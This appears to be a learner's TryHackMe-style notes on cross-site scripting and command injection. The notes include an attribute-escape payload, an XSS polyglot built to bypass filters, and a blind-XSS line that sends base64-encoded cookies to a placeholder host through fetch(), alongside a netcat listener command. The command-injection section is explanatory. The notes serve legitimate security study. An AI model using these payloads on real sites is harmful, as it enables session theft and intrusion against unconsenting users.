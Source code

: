 
- IMG tag attribute ‘`onload = “ ”`’
    
    `/images/cat.jpg" onload="alert('THM');`
    
    Will turn out to be
    
    <img src = “`/images/cat.jpg" onload="alert('THM');`">
    

### **Polyglots**

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 

`jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e`

### For Blind XSS:

First, set up a listening server using Netcat: `nc -nlvp PORT_NUMBER`

`<script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

• The `fetch()` command makes an HTTP request.
• `btoa()` command base64 encodes the victim’s cookies.

# Command Injection

PAYLOADS: https://github.com/payloadbox/command-injection-payload-list

Command injection is also often known as “Remote Code Execution” (RCE) because of the ability to remotely execute code within an application. These vulnerabilities are often the most lucrative to an attacker because it means that the attacker can directly interact with the vulnerable system. For example, an attacker may read system or user files, data, and things of that nature.

For example, being able to abuse an application to perform the command `whoami` to list what user account the application is running will be an example of command injection.

This vulnerability exists because applications often use functions in programming languages such as PHP, Python and NodeJS to pass data to and to make system calls on the machine’s operating system. For example, taking input from a field and searching for an entry into a file.

Command Injection can be detected in mostly one of two ways:

1. Blind command injection
2. Verbose command injection

I have defined these two methods in the table below, where the two sections underneath will explain these in greater detail.

| **Method** | **Description** |
| --- | --- |
| Blind | This type of injection is where there is no direct output from the application when testing payloads. You will have to investigate the behaviours of the application to determine whether or not your payload was successful. |
| Verbose | This type of injection is where there is direct feedback from the application once you have tested a payload. For example, running the `whoami` command to see what user the application is running under. The web application will output the username on the page directly. |
